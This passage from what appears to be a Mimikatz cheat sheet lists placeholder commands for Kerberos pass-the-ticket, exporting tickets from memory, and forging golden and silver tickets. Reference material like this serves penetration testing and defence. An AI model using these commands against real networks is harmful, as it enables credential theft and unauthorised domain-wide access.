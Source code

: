 #### Pass-the-Ticket (PTT)

1. **Perform a Pass-the-Ticket Attack**: Injects a Kerberos ticket into the current session, allowing access to resources as the ticketed user.
    ```bash
    kerberos::ptt <ticket.kirbi>
    ```
2. **List Injected Tickets**: Displays all Kerberos tickets currently in memory.
    ```bash
    sekurlsa::tickets
    ```
3. **Export a Ticket from Memory**: Exports all Kerberos tickets from memory for later use.
    ```bash
    sekurlsa::tickets /export
    ```

## Kerberos Attacks

Mimikatz includes several powerful features for attacking Kerberos, the authentication protocol used in Active Directory environments.

#### Golden Ticket Attack

1. **Create a Golden Ticket**: Creates a forged Kerberos ticket that provides domain admin access.
    ```bash
    kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<krbtgt_hash> /id:<RID>
    ```
2. **Golden Ticket with Custom Groups**: Creates a Golden Ticket with custom group memberships.
    ```bash
    kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<krbtgt_hash> /groups:<group_ids>
    ```
3. **Inject and Use the Golden Ticket**: Injects the Golden Ticket into the current session, allowing unrestricted access.
    ```bash
    kerberos::ptt <ticket.kirbi>
    ```

#### Silver Ticket Attack

1. **Create a Silver Ticket**: Creates a forged service ticket for a specific service, allowing access to that service.
    ```bash
    kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /target:<service>/<server> /rc4:<service_hash>
    ```
2. **Inject and Use the Silver Ticket**: Injects the Silver Ticket into the current session, allowing access to the targeted service.
    ```bash
    kerberos::ptt <silver_ticket.kirbi>
    ```
3. **List Available Services for Silver Ticket**: Lists all available Kerberos service tickets in memory.
    ```bash
    sekurlsa::tickets
    ```
